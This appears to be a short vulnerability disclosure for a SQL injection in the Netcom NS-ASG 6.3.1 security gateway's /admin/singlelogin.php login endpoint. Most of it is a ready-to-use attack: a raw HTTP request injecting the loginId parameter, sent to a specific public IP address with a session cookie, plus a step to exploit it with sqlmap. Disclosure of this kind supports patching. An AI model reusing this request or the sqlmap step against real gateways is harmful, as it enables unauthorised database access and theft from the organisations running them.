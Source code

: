 Netcom NS-ASG application security gateway has SQL injection vulnerability

version:NS-ASG 6.3.1

![image](https://github.com/aknbg1thub/cve/assets/105481616/64c11eeb-1b01-46e8-b4da-961f5c197d63)

url:/admin/singlelogin.php

1.log in page
![image](https://github.com/aknbg1thub/cve/assets/105481616/4c031678-de76-4e66-b325-1ff84da54457)

2.Inject the loginid parameter at the login point
GET /admin/singlelogin.php?submit=1&loginId=1* HTTP/1.1
Host: 218.75.78.54:4443
Cookie: PHPSESSID=08de4bddc8c53141eced1b928c54290d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 1.1.1.1
Te: trailers
Connection: close
3.Run injection through sqlmap
![image](https://github.com/aknbg1thub/cve/assets/105481616/5ab1ddb3-bea7-4478-899d-57699d77cf98)

![image](https://github.com/aknbg1thub/cve/assets/105481616/8f044f10-306c-487c-9b5e-ee2119c647e6)
